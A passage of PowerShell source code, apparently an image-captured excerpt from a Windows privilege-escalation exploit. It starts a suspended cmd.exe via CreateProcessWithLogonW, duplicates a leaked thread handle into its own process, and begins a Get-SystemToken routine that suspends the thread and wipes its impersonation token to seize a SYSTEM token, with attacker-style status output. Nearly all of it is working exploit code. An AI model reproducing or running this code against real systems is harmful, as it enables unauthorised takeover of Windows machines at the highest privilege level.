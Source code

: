 		# ProcessInfo Struct
		$ProcessInfo = New-Object PROCESS_INFORMATION
		
		# CreateProcessWithLogonW --> lpCurrentDirectory
		$GetCurrentPath = (Get-Item -Path ".\" -Verbose).FullName
		
		# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
		$CallResult = [Advapi32]::CreateProcessWithLogonW(
			"user", "domain", "pass",
			0x00000002, "C:\Windows\System32\cmd.exe", "",
			0x00000004, $null, $GetCurrentPath,
			[ref]$StartupInfo, [ref]$ProcessInfo)
		
		# Duplicate handle into current process -> DUPLICATE_SAME_ACCESS
		$lpTargetHandle = [IntPtr]::Zero
		$CallResult = [Kernel32]::DuplicateHandle(
			$ProcessInfo.hProcess, 0x4,
			[Kernel32]::GetCurrentProcess(),
			[ref]$lpTargetHandle, 0, $false,
			0x00000002)
		
		# Clean up suspended process
		$CallResult = [Kernel32]::TerminateProcess($ProcessInfo.hProcess, 1)
		$CallResult = [Kernel32]::CloseHandle($ProcessInfo.hProcess)
		$CallResult = [Kernel32]::CloseHandle($ProcessInfo.hThread)
		
		$lpTargetHandle
	}
	
	function Get-SystemToken {
		echo "`n[?] Thread belongs to: $($(Get-Process -PID $([Kernel32]::GetProcessIdOfThread($hThread))).ProcessName)"
	
		$CallResult = [Kernel32]::SuspendThread($hThread)
		if ($CallResult -ne 0) {
			echo "[!] $hThread is a bad thread, exiting.."
			Return
		} echo "[+] Thread suspended"
		
		echo "[>] Wiping current impersonation token"
		$CallResult = [Advapi32]::SetThreadToken([ref]$hThread, [IntPtr]::Zero)
		if (!$CallResult) {
			echo "[!] SetThreadToken failed, exiting.."
			$CallResult = [Kernel32]::ResumeThread($hThread)
			echo "[+] Thread resumed!"
			Return
		}
		